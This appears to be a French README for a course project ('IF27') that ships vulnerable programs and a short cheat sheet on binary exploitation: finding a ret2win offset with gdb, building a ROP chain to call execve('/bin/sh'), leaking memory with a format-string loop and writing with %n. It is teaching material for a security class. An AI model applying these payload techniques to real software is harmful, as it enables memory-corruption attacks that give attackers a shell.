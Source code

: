 # IF27
Fichiers et programmes de la présentation de IF27

**Ce document contient les fichiers et programmes pour réaliser les exploitattions vues dans la présentation et le rapport de IF27**

*Installation*
```git clone https://github.com/arthubhub/IF27.git
cd docker
./dockerMake.sh
```



*Aide*

# Ret2win :

Trouver l'offset : 
- gdb ./programme
- disass fonction_vulnerable
- b *[adresse après gets()]
- run < A1A2A3A4 ...
- au breakpoint : info frame -> regarder saved eip et en déduire l'offset
Trouver l'adresse de win
- disass win -> prendre l'adresse de la première instruction
- echo -ne "OFFSET\xdd\xcc\xbb\xaa" | ./programme -> remplace saved eip par 0xaabbccdd

# ROPchain :
- trouver les gadgets : ROPgadget --binary ./programme | grep "pop ..x .*; ret"
- mettre /bin/sh à une adresse connue :
pop ebx ; ret
ebx = 0xffffa004
pop eax ; ret
eax = 0x0068732f
mov dword ptr [ebx], eax ; ret

## Le cas de execve :
- execve(”/bin/sh”,0,0)
- le numéro du syscall doit etre dans eax
- x86_32
    - eax=0xB
    - ebx=@ de “/bin/sh”
    - ecx=0
    - edx=0
- x86_64
    - rax=59
    - rdi=@ de “/bin/sh”
    - rsi=0
    - rdx=0

# Format string 

## Lire partout
```
#!/bin/sh
for i in for i in $(seq 1 2000)
do
   echo "%${i}\$s" | ./vuln_format_string | grep "Result of" | strings >> results
done
```
## Écrire où on veut

Pour finir, la chaine de formatage %n nous permet d’écrire. Elle écrit le nombre de caractères affichés jusque là, mais où?. Elle les écrit dans l’adresse qu’on lui donne, en argument. 
Par exemple : 

- `printf(”54321%n”,&i); //écrit 5 dans i`
- `printf(”ab54321%3$n”,&a,&b,&c); //écrit 7 dans c`

Donc ce qu’on peut faire, c’est envoyer une chaine de formatage comme “a1b2%x%x%x…”, compter le nombre de %x jusqu’à atteindre “a1b2”, puis remplacer ce %x par un %n. On écrit alors une valeur à l’adresse “a1b2”. On peut changer la valeur écrite en ajustant le nombre de caractères imprimés en modifiant un %x → %0Nx, par exemple %0134x. Il ne reste plus qu’à remplacer “a1b2” par l’adresse voulue ( \x78\x56\x34\x12 pour l’adresse 12345678 ).

Des options plus avancées sont “a1b2%Ax%B$n”. Cette chaine imprime 4+A dans l’argument numéro B+1.

